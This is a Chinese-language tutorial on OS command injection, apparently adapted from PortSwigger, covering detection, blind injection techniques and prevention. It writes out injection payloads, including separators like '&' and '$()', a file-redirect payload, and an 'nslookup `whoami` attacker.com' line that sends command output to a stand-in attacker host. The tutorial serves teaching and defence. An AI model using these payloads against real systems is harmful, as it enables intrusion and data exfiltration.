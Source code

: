 # 常见web漏洞——系统命令注入

在本文中，我将讲述**什么是系统命令注入**以及**如何检测和利用系统注入漏洞**。并且会罗列一些针对不同操作系统比较有用的攻击命令和技术。最后则将讲述**如何阻止系统命令注入攻击**。

![](https://mmbiz.qpic.cn/mmbiz_png/XsgEbl9EdmkAyXqo4kqFyxdBrxv1LbeUJaMdN930DkW7nXbgOm9GqpziaUrIhm8LmS0oAtBaS8CJ20ex8tEWTGA/0?wx_fmt=png)

# 什么是系统命令注入？
**操作系统命令注入**(通常也称为**脚本注入**(**Shell Injection**))是一种web安全漏洞。攻击者可以利用其在运行应用的服务器执行任意操作系统命令。典型的后果是**完全破坏应用程序及其所有数据**。通常，攻击者还能利用这种漏洞**破坏托管该应用基础设施**的其它部分，并**利用其它服务对该被攻击服务的信任关系将攻击转移到组织内的其他系统**。
# 执行任意命令
考虑一个购物应用程序，该应用程序使用户可以查看特定商店中某商品是否有库存。 该信息可通过如下URL访问到：

	https://insecure-website.com/stockStatus?productID=381&storeID=29


为了提供库存信息，通常的做法可能都是去查询数据库之类的存储系统。但是不巧，该服务整体架构比较老旧，为了拿到库存信息，应用程序必须查询各种旧系统。 由于历史原因，该功能是通过使用`productID`和`storeID`作为参数调用`shell`命令来实现的：

	stockreport.pl 381 29


这个脚本会针对给定`productID`和`storeID`来查询库存信息并返回给用户。

而由于该服务并没有进行任何的命令注入的防护，所以攻击者可以通过提交下面这样的查询字符串来执行任意命令：

	& echo aiwefwlguh &


如果这个参数是作为`productID`传入的，那么最终执行的命令会是：

	stockreport.pl & echo aiwefwlguh & 29

这个`echo`命令只会导致提供的字符串回显到输出，这在用来测试某些类型的注入非常有用。`& `字符串是`shell`命令分隔符，所以最终被执行的是三段独立的指令。所以，最终输出给用户的将可能会是：

	Error - productID was not provided
	aiwefwlguh
	29: command not found


这三行输出可以证明：

- 最初的 `stockreport.pl` 并没有按照自己预期的参数执行，所以它输出了错误的结果
- 被注入的 `echo` 指令被执行了，并且提供给它的参数回显出来了。
- 参数`29`被当做命令去解析，所以导致了一个错误。

通常，将附加命令分隔符`＆`放置在注入命令之后是很有用的，因为这会将注入命令与注入点后面的内容分开。 这减少了注入的命令被阻止执行的可能性。

> 注意：以上只是比较简单的例子，很多系统命令注入漏洞并不会直接把结果返回给攻击者，后面会讲。
一些有用的命令

当你已经确定出某个应用存在命令注入漏洞后，通常可以执行一些初始命令来获取有关被你攻击的系统的信息。 以下是在Linux和Windows平台上有用的一些命令：


|  说明   | Linux  | Windows  |
|  ----  | ----  | ----  |
| 当前用户信息  | whoami | whoami |
| 操作系统信息  | uname -a | ver |
| 网络配置  | ifconfig | ipconfig /all |
| 网络连接  | netstat -an | netstat -an |
| 运行的进程  | ps -ef | tasklist |


# 系统命令盲注攻击
命令注入中的很多case都是**盲注漏洞**。什么意思呢？就是说虽然命令确实被注入了，但是它并不会像上面的例子那样直接将结果返回回来。盲注漏洞仍然可以被利用，只是需要不同的技术。

假设一个Web站点运行用户给他们提交反馈。用户输入他们的邮箱以及反馈内容。服务端应用给管理员生成一封包含反馈内容的邮件。这个应用是通过调用`mail`实现这个功能的，例如：

	mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com


假设 `mail`指令的内容并不会直接通过HTTP响应返回给提交者，那么使用 `echo` 来检测是否可以注入的话就不太可行了。这种情况下，可以使用其它的技术来检查和利用漏洞。

### 使用时间延时检测命令盲注
可以通过尝试注入一个会导致响应时延的命令并对比注入前后响应的时间来确认注入的命令是否被执行。`ping` 指令非常适合干这个，因为它允许你指定发送ICMP包，而这会消耗时间，比如：

	& ping -c 10 127.0.0.1 &

这个指令会导致应用会`ping` 一下`127.0.0.1`这个回环地址，持续10s。

### 通过重定向输出利用命令盲注
另外一种方式是，你可以将命令的输出重定向到应用根目录下的某个文件，这样你可以直接在浏览器获取这个文件。例如，如果应用程序的静态资源存放在位于服务目录`/var/www/static`下，那么你可以通过如下指令将命令输出写入这个目录下的文件：

	& whoami > /var/www/static/whoami.txt &

` >`会将`whoami`指令的输出写入`/var/www/static/whoami.txt`这个文件中，那这样你就可以直接通过浏览器URL https://vulnerable-website.com/whoami.txt 访问到了。

### 使用out-of-band(OAST)网络技术利用命令盲注
另外一种方式就是，你可以通过注入一个能够与你自己控制的服务进行交互的命令来验证。比如：

	& nslookup attacker.com &


这个注入使用了`nslookup`命令来查询指定域名的DNS。攻击者可以监视是否发生了指定的查找，从而检测到命令成功注入与否。

这种注入方式还提供了一种从注入的命令中提取输出的简便方法：

	& nslookup `whoami` attacker.com &

这个注入命令会导致被攻击服务携带信息向攻击者控制的服务发起DNS查询。

# 系统命令注入常见方式
有很多种`shell`元字符可以用来实现系统命令注入。有许多字符用作命令分隔符，使命令可以链接在一起。 以下命令分隔符在Windows和基于Unix的系统上均可使用：

- &
- &&
- |
- ||

下面这几种只能运行在基于Unix的系统：

- ;
- 换行 (`0x0a` or `\n`)

在基于Unix的系统上，您还可以使用**反引号**或**美元字符**在原始命令中内嵌执行注入命令：

- ` some injected command `
- $( some injected command )

**注意**，不同的`shell`元字符的行为具有细微差异，这些行为可能会影响它们是否在某些情况下起作用，以及它们是在有回显输出的场景起作用还是只能通过盲注的方式起作用。

有时，您控制的输入会出现在原始命令的引号中。 在这种情况下，需要先使用**引号**终止上下文（使用单引号`'`或双引号`''`），然后再使用适当的`shell`元字符来插入新命令。

# 如何阻止系统命令注入攻击？
目前为止，最为有效的阻止命令注入的手段就是**不以系统命令的方式执行外部输入**。不执行就不会有风险，有很多种可以替代通过执行命令完成工作的手段。

但是如果你这个不可避免的非得用执行命令的方式来完成某个工作，唯一的方式就是对输入执行强校验，一些校验case如下：

- 使用白名单对指令校验
- 校验输入是否是数字
- 校验输入是否是基本的字符，没有空格或者其他字符。

切勿尝试通过转义`shell`元字符来清理输入。 实际上，这太容易出错，容易被熟练的攻击者绕开。

# 参考
https://portswigger.net/web-security/os-command-injection
